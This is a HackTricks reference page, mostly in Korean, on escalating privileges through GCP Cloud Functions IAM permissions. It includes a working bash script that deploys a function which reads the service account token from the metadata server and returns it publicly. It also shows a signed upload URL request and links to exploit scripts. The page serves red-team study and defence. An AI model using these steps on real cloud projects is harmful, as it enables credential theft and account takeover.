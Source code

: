 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.**
* **PR을 제출하여 해킹 트릭을 공유하세요:** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소.

</details>
{% endhint %}

## cloudfunctions

Cloud Functions에 대한 추가 정보:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **임의의 (악성) 코드를 가진 새로운 Cloud Function을 생성하고 서비스 계정을 할당할 수 있습니다**. 그런 다음, 메타데이터에서 서비스 계정 토큰을 유출하여 권한을 상승시킬 수 있습니다.\
함수를 트리거하기 위한 몇 가지 권한이 필요할 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)와 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)에서 찾을 수 있으며, 사전 빌드된 .zip 파일은 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)에서 찾을 수 있습니다.

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

이 권한을 가진 공격자는 **함수의 코드를 수정하고 할당된 서비스 계정을 수정하여 토큰을 유출할 수 있습니다**.\
함수를 트리거하기 위한 몇 가지 권한이 필요할 수 있습니다.
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--trigger-http \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--allow-unauthenticated

# If you don't have permissions to change the IAM policy, the "--allow-unauthenticated" will just fail and do nothing

# Get SA tokin calling the new function code
gcloud functions call <cloudfunction-name>
```
The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

이 권한을 사용하면 **함수 버킷에 파일을 업로드할 수 있는 서명된 URL을 얻을 수 있습니다 (하지만 함수의 코드는 변경되지 않으며, 여전히 업데이트가 필요합니다)**

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

공격자의 관점에서 이 권한만으로 얼마나 유용할지는 확실하지 않지만, 알아두면 좋습니다.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

이전의 **`.update`** 또는 **`.create`** 권한을 부여하여 권한을 상승시킵니다.

### `cloudfunctions.functions.update`

**`cloudfunctions`** 권한만 있고 **`iam.serviceAccounts.actAs`**가 없으면 **함수를 업데이트할 수 없으므로 유효한 권한 상승이 아닙니다.**

### Bucket Write Permissions

Cloud Functions 코드가 저장된 버킷에 대한 **쓰기 권한**을 가진 공격자가 `function_code.zip`을 **덮어써서** 코드를 **수정**하고 함수를 **임의의 코드**를 실행하도록 만들 수 있다고 생각할 수 있습니다.

{% hint style="success" %}
**그러나, 이는 사실이 아닙니다. 버킷 내의 코드를 덮어쓰는 것만으로는 실행 중인 코드를 수정할 수 없습니다.**
{% endhint %}

## References

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
